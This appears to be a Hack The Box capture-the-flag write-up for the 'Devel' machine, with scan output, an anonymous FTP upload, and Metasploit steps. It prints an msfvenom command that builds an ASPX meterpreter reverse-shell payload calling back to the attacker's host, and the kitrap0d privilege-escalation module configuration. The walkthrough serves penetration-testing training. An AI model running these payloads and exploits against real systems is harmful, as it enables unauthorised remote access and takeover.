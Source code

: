 ```yaml
---
title:     "Hack The Box - Devel"
tags: [windows,easy,iis,mfsvenom]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/1.png)

We are going to pwn Devel from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/3>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## FTP:

We logged in as ``anonymous`` password can be anything. No files are interested.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/2.png)

## HTTP:

This is just default IIS Page:
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/3.png)

I started my gobuster and checked anything useful for us.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/02/25 21:05:15 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
===============================================================
2020/02/25 21:07:45 Finished
===============================================================
```

This looks like the same file as we saw in ``ftp`` this means the ftp is connected with web server.

I confirmed that with opening ``/welcome.png``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/4.png)

So now we need to upload a reverse shell in ``ftp`` and access it from web.
I look at the response of the web and the server is running as ``ASP.NET`` so we need to upload ``.aspx`` shell.
```
HTTP/1.1 304 Not Modified
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 28 Feb 2020 23:49:04 GMT
Connection: close
```

We need to get reverse shell, I used ``msfvenom`` to create the payload.

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=1234 -f aspx > reverse.aspx

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/7.png)

Now upload it in ``ftp`` and using metasploit to get the shell.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/8.png)

And start the metasploit and select ``exploit/multi/handler`` which provides a listener.
Set the payload that we used in ``msfvenom`` which is ``windows/meterpreter/reverse_tcp``.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/9.png)


Now open the ``/reverse.aspx`` from the web <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/10.png)

I get the ``shell`` and checked ``systeminfo``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/11.png)

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.


I tried ``local_exploit_suggester`` this will give us some suggestions to exploit.For that we need to background the session.
```
meterpreter > 
Background session 3? [y/N]  
```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/12.png)

We need to enter the session which it need to check.
```
msf5 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  3         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.28:1234 -> 10.10.10.5:49162 (10.10.10.5)

```
So its session 3.

Now we can run that<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/13.png)<br/>
There is a lot of exploits suggested so I picked up random one.

> exploit/windows/local/ms10_015_kitrap0d


```
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.28 
LHOST => 10.10.14.28
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1234
LPORT => 1234
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
SESSION => 3
msf5 exploit(windows/local/ms10_015_kitrap0d) > run
```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-devel/14.png)


